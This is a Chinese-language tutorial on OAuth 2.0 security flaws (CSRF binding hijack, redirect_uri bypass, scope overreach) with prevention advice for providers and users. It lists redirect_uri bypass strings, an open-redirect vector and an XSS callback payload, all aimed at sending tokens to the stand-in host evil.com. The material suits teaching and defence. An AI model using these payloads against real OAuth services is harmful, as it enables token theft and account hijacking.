 ![](/assets/oauth-1.png)

## OAuth流程

本文以两种广泛使用的方案为标准展开。如对流程不了解，请先移步学习:[理解OAuth 2.0](http://www.ruanyifeng.com/blog/2014/05/oauth_2_0.html)

```css
Authorization Code

response_type = code
redirect_uri
scope
client_id
state


```

![](/assets/oauth-2.png)



```
Implicit

response_type = token
redirect_uri
scope
client_id
state
```

## ![](/assets/oauth-3.png)



## 攻击面

```
1、CSRF导致绑定劫持

2、redirect_uri绕过导致授权劫持

3、scope越权访问
```

## 绑定劫持

攻击者抓取认证请求构造恶意url,并诱骗已经登录的网用户点击\(比如通过邮件或者QQ等方式\).认证成功后用户的帐号会同攻击者的帐号绑定到一起。

OAuth 2.0提供了state参数用于防御CSRF.认证服务器在接收到的state参数按原样返回给redirect\_uri,客户端收到该参数并验证与之前生成的值是否一致.除此方法外也可使用传统的CSRF防御方案.

案例:[人人网-百度OAuth 2.0 redirect\_uir CSRF 漏洞](https://wy.ictf.pw/static/bugs/wooyun-2014-054785.html)



## 授权劫持

根据OAuth的认证流程,用户授权凭证会由服务器转发到`redirect_uri`对应的地址,如果攻击者伪造`redirect_uri`为自己的地址,然后诱导用户发送该请求,之后获取的凭证就会发送给攻击者伪造的回调地址.攻击者使用该凭证即可登录用户账号,造成授权劫持.

正常情况下,为了防止该情况出现,认证服务器会验证自己的client\_id与回调地址是否对应.常见的方法是验证回调地址的主域,涉及到的突破方式与CSRF如出一辙:

### 未验证

* 未验证的情况,可以直接跳出外域.

  案例:[土豆网某处认证缺陷可劫持oauth\_token](https://wy.ictf.pw/static/bugs/wooyun-2013-045318.html)

### 验证绕过

```
auth.app.com.evil.com
evil.com?auth.app.com
evil.com?@auth.app.com  案例:腾讯OAuth平台 redirect_uri 过滤不严可能导致用户信息遭窃取（二）

auth.app.com@evil.com   案例:绕过网易oauth认证的redirect_uri限制劫持帐号token

auth.app.com\@evil.com  案例:腾讯OAuth平台redirect_uri过滤不严可能导致用户信息遭窃取（四）

evil.com\auth.app.com
evil.com:\auth.app.com
evil.com\.auth.app.com  案例:腾讯OAuth平台redirect_uri过滤不严可能导致用户信息遭窃取

evil.com:\@auth.app.com 案例:新浪微博OAuth平台redirect_uri过滤不严可能导致用户信息遭窃取

宽字符绕过 案例:腾讯OAuth平台redirect_uri过滤不严可能导致用户信息遭窃取（三）
```

### 子域可控

* 对回调地址验证了主域为`app.com`,但其子域`evil.app.com`可被任意用户注册使用.

  案例:[新浪微博部分App Oauth2漏洞](https://wy.ictf.pw/static/bugs/wooyun-2014-060586.html)

### 跨域

* 利用可信域的url跳转从referer偷取token

  如果网站存在一个任意url跳转漏洞,可利用该漏洞构造以下向量

  ```
  redirect_uri=http://auth.app.com/redirect.php?url=http://evil.com
  ```

  认证服务器将凭证通过GET方法发送到`redirect.php`,这时`redirect.php`执行跳转,访问[`http://evil.com`](http://evil.com/),攻击者为`evil.com`记录日志,并从请求头中的`referer`字段提取出该凭证,即可通过该凭证进行授权登录.

* 利用跨域请求从referer偷取token

  在我们不能绕过redirect\_uri的判断规则时,我们可以使利用跨域请求从referer中偷取token.

  例1`redirect_uri`限制为`app.com`,然而`app.com/article/1.html`中允许用户发表文章,在文章中嵌入来自`evil.com`的外部图片.这时我们可以让`redirect_uri`指向该文章`app.com/article/1.html`,当该文章被访问时,会自动获取`evil.com/test.jpg`,这时攻击者即可从请求头的`referer`拿到`token`

  例2 利用XSS实现跨域

  ```
  redirect_uri = http://app.com/ajax/cat.html?callback=<scriptsrc="http://evil.com?getToken.php"></script>
  ```

## 越权访问

这个案例展示了scope权限控制不当带来的安全风险,同时将**授权劫持**的几个方面演绎的淋漓尽致.

案例:[从“黑掉Github”学Web安全开发](http://coolshell.cn/articles/11021.html)



## **漏洞防范**

### **OAuth提供方**

1\) 对redirect\_uri进行全路径验证，避免URL跳转情况

2\) 参数state即用即毁

3\) 首次授权，强制验证

4\) 获取access\_token，验证App secret

5\) 回调URL进行跳转校验等

6\) 加强redirect\_uri验证，避免绕过

### **普通用户**

对于普通用户来说，其实没有什么好恐慌的，这次问题的利用的前提是对构造URL的访问，所以主要是针对URL提高警惕和识别，需要注意以下几点：

1\) 只授权给可信的第三方应用

2\) 不要访问不明来路的链接，正常的应用授权应该是通过页面中的登陆按钮等方式进行的。

